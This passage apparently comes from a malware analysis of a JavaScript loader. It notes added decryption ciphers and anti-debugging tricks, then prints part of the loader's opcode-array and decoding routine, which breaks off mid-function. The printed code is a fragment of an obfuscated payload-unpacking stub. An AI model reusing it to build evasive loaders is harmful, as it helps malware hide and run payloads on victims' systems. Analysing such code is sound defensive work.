 <h4>The main improvements of the last version are on the increasing the numbers of the ciphers used for the decryption process and the anti-debugger with exception states. For the rest, that's still when the matrix used for the decryption of data is the same that the reference that a token is given for ensure that the decryption is finish and run the payloads.</h4>

```js
var Mat1 = Initmatrix1();
    var Mat2 = Initmatrix2();
    var Token = 0;
    var s = "";
    var n = 0;
    var tmpArray = [];
    OpAr[0] = 74;
    OpAr[1] = 68;
    OpAr[2] = 77;
    OpAr[3] = 105;
    OpAr[4] = 115;
    OpAr[5] = 104;
    OpAr[6] = 110;
    OpAr[7] = 108;
    OpAr[8] = 80;
    OpAr[9] = 69;
    OpAr[10] = 109;
    OpAr[11] = 67;
    OpAr[12] = 120;
    OpAr[13] = 99;
    OpAr[14] = 71;
    OpAr[15] = 76;
    OpAr[16] = 68;
    OpAr[17] = 117;
    OpAr[18] = 79;
    OpAr[19] = 113;
    OpAr[20] = 119;
    OpAr[21] = 82;
    OpAr[22] = 109;
    OpAr[23] = 100;
    OpAr[24] = 75;
    OpAr[25] = 107;
    var id = 26;
    var i = 0;
    var result;
    do {
        s = (i + "");
        n = s.length;
        if (n === 1) {
            OpAr[id] = SwitchVal(i);
        } else {
            tmpArray = SplitVal(s);
            OpAr[id] = SwitchVal(tmpArray[0]);
            switch (n) {
                case 2:
                    OpAr[id + 1] = SwitchVal(tmpArray[1]);
                    break;
                case 3:
                    OpAr[id + 1] = SwitchVal(tmpArray[1]);
                    OpAr[id + 2] = SwitchVal(tmpArray[2]);
                    break;
                case 4:
                    OpAr[id + 1] = SwitchVal(tmpArray[1]);
                    OpAr[id + 2] = SwitchVal(tmpArray[2]);
                    OpAr[id + 3] = SwitchVal(tmpArray[3]);
                    break;
                case 5:
                    OpAr[id + 1] = SwitchVal(tmpArray[1]);
```
